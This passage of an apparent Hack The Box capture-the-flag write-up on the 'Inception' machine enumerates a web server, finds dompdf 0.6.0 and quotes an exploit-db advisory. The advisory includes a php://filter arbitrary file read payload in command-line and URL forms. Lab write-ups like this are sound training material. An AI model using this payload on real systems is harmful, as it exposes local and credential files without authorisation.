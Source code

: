 
 There's nothing much in any url.
 But index.html does have a lot of empty lines and at the end it contains the string:
 ```bash
$ curl http://inception.htb/


<!-- Todo: test dompdf on php 7.x -->
 ```
 
Visiting /dompdf gives:
```bash
****** Index of /dompdf ******
[[ICO]]       Name                         Last_modified    Size Description
============================================================================
[[PARENTDIR]] Parent_Directory                                -  
[[   ]]       CONTRIBUTING.md              2014-01-26 20:25 3.1K  
[[   ]]       LICENSE.LGPL                 2013-05-24 03:47  24K  
[[   ]]       README.md                    2014-02-07 03:30 4.8K  
[[   ]]       VERSION                      2014-02-07 06:35    5  
[[   ]]       composer.json                2014-02-02 08:33  559  
[[   ]]       dompdf.php                   2013-05-24 03:47 6.9K  
[[   ]]       dompdf_config.custom.inc.php 2013-11-07 04:45 1.2K  
[[   ]]       dompdf_config.inc.php        2017-11-06 02:21  13K  
[[DIR]]       include/                     2014-02-08 01:00    -  
[[DIR]]       lib/                         2014-02-08 01:00    -  
[[   ]]       load_font.php                2013-05-24 03:47 5.2K  
============================================================================
     Apache/2.4.18 (Ubuntu) Server at inception.htb Port 80
```
VERSION file says 0.6.0.

# Foothold
Running searchsploit on `dompdf 0.6.0` gives:
```bash
$ searchsploit dompdf 0.6.0
----------------------------------------------------------- ---------------------------------
 Exploit Title          							       |  Path
----------------------------------------------------------- ---------------------------------
dompdf 0.6.0 - 'dompdf.php?read' Arbitrary File Read       | php/webapps/33004.txt
dompdf 0.6.0 beta1 - Remote File Inclusion  		       | php/webapps/14851.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

**Let's try with the arbitrary file read.**
```bash
An arbitrary file read vulnerability is present on dompdf.php file that
allows remote or local attackers to read local files using a special
crafted argument. This vulnerability requires the configuration flag
DOMPDF_ENABLE_PHP to be enabled (which is disabled by default).

Using PHP protocol and wrappers it is possible to bypass the dompdf's
"chroot" protection (DOMPDF_CHROOT) which prevents dompdf from accessing
system files or other files on the webserver. Please note that the flag
DOMPDF_ENABLE_REMOTE needs to be enabled.

Command line interface:
php dompdf.php
php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>

Web interface:

http://example/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```